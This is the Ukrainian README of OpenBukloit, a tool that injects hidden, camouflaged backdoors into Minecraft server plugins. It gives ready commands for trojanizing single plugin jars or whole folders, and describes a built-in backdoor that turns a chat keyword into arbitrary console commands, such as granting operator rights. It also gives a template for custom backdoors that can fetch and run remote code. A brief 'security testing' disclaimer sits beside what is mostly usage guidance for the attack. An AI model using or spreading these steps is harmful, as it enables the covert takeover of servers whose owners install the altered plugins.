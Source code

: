 <div align="center"><h1>OpenBukloit - Інжектор бекдорів для Minecraft плагінів</h1></div>

<div align="center"><img alt="Logo" src="../logo.png"/></div>

<div align="center">
    <a href="https://github.com/VoxelHax/OpenBukloit/issues"><img alt="Open issues" src="https://img.shields.io/github/issues-raw/VoxelHax/OpenBukloit"/></a>
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="GitHub downloads" src="https://img.shields.io/github/downloads/VoxelHax/OpenBukloit/total"></a>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/VoxelHax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
    <a href="https://discord.gg/xtaktPTzYp"><img alt="Discord" src="https://img.shields.io/discord/928214827095175199"></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-ЗАВАНТАЖИТИ_ОСТАНІЙ_РЕЛІЗ_(КЛІК)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**Мови: [English](../README.md), [Русский](README_RU.md), [Українська](README_UA.md)**

**OpenBukloit** — сучасний та потужний універсальний інжектор бекдорів, сумісний з усіма Bukkit/Spigot/Paper/і т.д. плагінами. Його особливістю є можливість інтеграції з будь-яким плагіном без необхідності щоразу модифікувати бекдор. Більш того, він забезпечує потужний двигун камуфляжу,
що робить практично неможливим його пошук без достатніх знань чи просунутих автоматизованих інструментів. OpenBukloit був розроблений для тестування систем безпеки серверів Minecraft. Команда VoxelHax не несе відповідальності за його неправомірне використання.

Це продовження проекту **[Bukloit](https://github.com/Rikonardo/Bukloit)**, в якому ми врахували всі проблеми попереднього проекту та використали зовсім інший підхід до розробки.

## Можливості OpenBukloit
- **Повна підтримка Bukkit та його форків на будь-якій версії Minecraft.**
- **Підтримка користувальницьких бекдорів.**
- **Автоматичне завантаження JDK, тому вам не потрібно дбати про сумісність версії Java.**
- **Потужний камуфляжний двигун, що ускладнює пошук бекдору у плагіні.**

## Встановлення
Для використання OpenBukloit у вас має бути встановлена будь-яка версія Java (але не нижче 8). Jar-файл OpenBukloit можна завантажити з [вкладки релізів](https://github.com/Voxelhax/OpenBukloit/releases/latest). OpenBukloit не вимагає жодних додаткових дій, просто помістіть файл jar кудись і використовуйте його з командного рядка.

## Використання
Щоб запустити OpenBukloit, відкрийте командний рядок у каталозі, де знаходиться jar-файл OpenBukloit та введіть:

```sh
java -jar OpenBukloit.jar
```

Після імені файлу jar можна передати деякі аргументи для налаштування інжектора:

| Короткий аргумент | Довгий аргумент | Опис                                                                                                                                                                                  | Тип      |
|-------------------|-----------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------|
| -e                | --exploit       | Шлях до скомпільованого файлу .class або до похідного коду .java, який буде використовуватися як бекдор.<br />**За замовчуванням використовується вбудований бекдор.**                | Значення |
| -m                | --mode          | Режим Може бути одиночним/множинним.<br />**За замовчуванням: <ins>multiple</ins>.**<br />У множинному режимі змінює всі файли у зазначеній папці. В одиночному - лише вказаний файл. | Значення |
| -i                | --input         | Шлях до вхідної папки/файлу (залежить від режиму).<br />**За замовчуванням: <ins>in</ins> (<ins>in.jar</ins> якщо режим одиночний).**                                                 | Значення |
| -o                | --output        | Шлях до вихідної папки/файлу (залежить від режиму).<br />**За замовчуванням: <ins>out</ins> (<ins>out.jar</ins> якщо режим одиночний).**                                              | Значення |
| -r                | --replace       | Замінювати вихідний файл, якщо він вже існує.                                                                                                                                         | Флаг     |
|                   | --no-camouflage | Не застосовувати камуфляж (може бути корисним, якщо камуфляж не працює належним чином через обфускацію плагіна).                                                                      | Флаг     |
|                   | --class-name    | **Працює тільки з флагом `--no-camouflage`!** Задати кастомну назву для класа експлоїта (може включати назву пакета, наприклад: `com.voxelhax.OpenBukloitExploit`).                   | Значення |
|                   | --method-name   | **Працює тільки з флагом `--no-camouflage`!** Задати кастомну назву для метода `inject` у класі експлоїта.                                                                            | Значення |

Але цих аргументів недостатньо для запуску OpenBukloit. Ви також маєте вказати параметри бекдора. Оскільки OpenBukloit підтримує впровадження користувацьких бекдорів, ви повинні передати додаткові аргументи, які потрібні для бекдору.

## Вбудований експлоїт

За замовчанням OpenBukloit використовує вбудований бекдор. Це простий бекдор, який дозволяє виконувати будь-які команди з консолі, написавши спеціальне ключове слово перед командою в чаті.

Параметри вбудованого бекдору:

| Довгий аргумент | Опис                                                      |
|-----------------|-----------------------------------------------------------|
| --key           | Ключове слово, яке запускає виконання консольної команди. |

Використання у грі ключа, встановленого на значення "hackthisserver":

```
hackthisserver op MyName
```

Це повідомлення, відправлене в чат, буде виконане як консольна команда і дасть ОП гравцю MyName.

**Ось кілька прикладів використання OpenBukloit із вбудованим бекдором:**

1. Пропатчити всі .jar файли з ключем "#console" із папки "in" і зберегти їх у папку "out" без заміни.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Пропатчити всі файли з ключем "hacktheserver" з папки "in" і зберегти їх у папку "out" із заміною.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Пропатчити один файл "PluginName.jar" з ключем "#console" і зберегти його як файл "Output.jar" із заміною.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

4. Пропатчити один файл "PluginName.jar" з ключем "#console" і зберегти його як файл "Output.jar" із заміною. Не застосовувати камуфляж і назвати клас експлоїта "com.voxelhax.OpenBukloitExploit".

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r --no-camouflage --class-name "com.voxelhax.OpenBukloitExploit"
```

*Обов’язково вкажіть номер версії після назви OpenBukloit. Наприклад, якщо ви завантажили версію `OpenBukloit-1.0.12`, переконайтеся, що у команді ви використовуєте назву `OpenBukloit-1.0.12.jar`, а не просто `OpenBukloit.jar`*

## Написання користувальницького експлоїту

Ви також можете написати власний бекдор. Це має бути клас із методом `public static void inject(JavaPlugin args)` (JavaPlugin з Bukkit API).

Ось простий приклад:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

Метод `inject` буде виконаний після методу `onEnable` плагіна. Ви можете робити тут все, що ви хочете, включаючи завантаження та запуск довільного коду з Інтернету.

Але ви повинні знати, що є деякі обмеження:
- В даний час ви не можете використовувати вкладені класи, у файлі експлоїту має бути лише один клас.
- Ви не повинні посилатися на свій клас експлоїту всередині нього, наприклад, використовувати його як параметри методу, як значення, що повертається, або як тип поля.

Ви можете використовувати зовнішні параметри з командного рядка, використовуючи %placeholders%, вони будуть підставлені в процесі інжекта:
Ось простий приклад:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

Потім ви можете заінжектити бекдор за допомогою команди:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Зверніть увагу, що ми можемо передати наш бекдор OpenBukloit без компіляції, і він автоматично скомпілює його з наявністю API Spigot в пулі класів під час компіляції.
